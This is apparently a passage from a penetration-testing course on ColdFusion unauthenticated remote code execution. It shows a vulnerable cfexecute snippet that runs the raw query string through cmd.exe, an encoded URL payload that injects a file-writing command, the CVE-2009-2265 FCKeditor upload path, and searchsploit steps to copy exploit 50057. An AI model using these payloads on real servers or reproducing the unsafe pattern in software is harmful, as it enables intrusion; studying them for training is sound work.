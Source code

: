 ```html
<cfset cmd = "#cgi.query_string#">
<cfexecute name="cmd.exe" arguments="/c #cmd#" timeout="5">
```

In the above code, the `cmd` variable is created by concatenating the `cgi.query_string` variable with a command to be executed. This command is then executed using the `cfexecute` function, which runs the Windows `cmd.exe` program with the specified arguments. This code is vulnerable to an unauthenticated RCE attack because it does not properly validate the `cmd` variable before executing it, nor does it require the user to be authenticated. An attacker could simply pass a malicious command as the `cgi.query_string` variable, and it would be executed by the server.

Code: http

```http
# Decoded: http://www.example.com/index.cfm?; echo "This server has been compromised!" > C:\compromise.txt

http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt
```

This URL includes a semicolon (`%3B`) at the beginning of the query string, which can allow for the execution of multiple commands on the server. This could potentially append legitimate functionality with an unintended command. The included `echo` command prints a message to the console, and is followed by a redirection command to write a file to the `C:` directory with a message indicating that the server has been compromised.

An example of a ColdFusion Unauthenticated RCE attack is the `CVE-2009-2265` vulnerability that affected Adobe ColdFusion versions 8.0.1 and earlier. This exploit allowed unauthenticated users to upload files and gain remote code execution on the target host. The vulnerability exists in the FCKeditor package, and is accessible on the following path:

Code: http

```http
http://www.example.com/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=
```

`CVE-2009-2265` is the vulnerability identified by our earlier searchsploit search as `Adobe ColdFusion 8 - Remote Command Execution (RCE)`. Pull it into a working directory.

**Searchsploit**

Attacking ColdFusion

```shell-session
AIceBear@htb[/htb]$ searchsploit -p 50057

  Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50057
     Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
File Type: Python script, ASCII text executable

Copied EDB-ID #50057AIceBear@htb[/htb]$ cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
```
